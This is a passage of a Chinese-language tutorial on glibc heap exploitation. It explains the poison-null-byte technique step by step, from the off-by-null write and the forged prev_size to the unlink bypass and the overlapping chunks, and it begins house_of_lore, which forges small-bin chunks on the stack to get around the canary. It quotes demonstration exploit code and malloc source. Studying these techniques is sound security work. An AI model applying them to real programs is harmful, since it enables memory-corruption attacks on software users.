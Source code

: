 接下来，就是要构造好fake chunk c，使得unlink时能绕过：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
```
当chunk a触发off_by_null后，将会将chunk b的size值从0x211改变为0x200，因此在触发漏洞前，需要构造好fake c.presize，该位置在c的presize位置的前面0x10字节处，修改代码为：

```c
*(size_t*)(b+0x1f0) = 0x200;
```

然后将chunk b释放，再通过a来触发漏洞：

```c
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
```

这样chunk b的size就变成了0x200，其下一个chunk的presize为构造好的0x200。然后通过malloc得到一个堆块b1，此时将会触发unlink，由于已经构造好了fake c.presize，因此就成功绕过了上面对size的检查，并且fake c.presize也变成了0xf0（此时真正的c的presize是0x211）：

```c
	b1 = malloc(0x100);

	fprintf(stderr, "b1: %p\n",b1);
	fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %#lx\n",*c_prev_size_ptr);
	fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
```

然后malloc一个堆块b2，之后free掉b1，再free掉c，此时由于c中presize为0x210，所以会触发`consolidate_backward`，将忽视掉b2这个chunk，直接把b1到c的所有内存合并成一个free chunk，涉及到的源码如下：

```c
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
```

此时再用malloc申请这一段内存得到一个堆块d，此时d与b2就出现了overlap chunk。

### 8	house_of_lore

这道题主要就是构造fake chunk绕过small bin在malloc分配时的检查，实现将栈空间分配到堆上的操作，从而绕过canary的栈保护机制直接对返回地址进行修改，下面简单介绍一下流程。

首先，在栈上创建两个数组，用于构造fake chunk（intptr_t的大小和系统中的地址位数相同，此时为8字节）：

```c
  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};
```
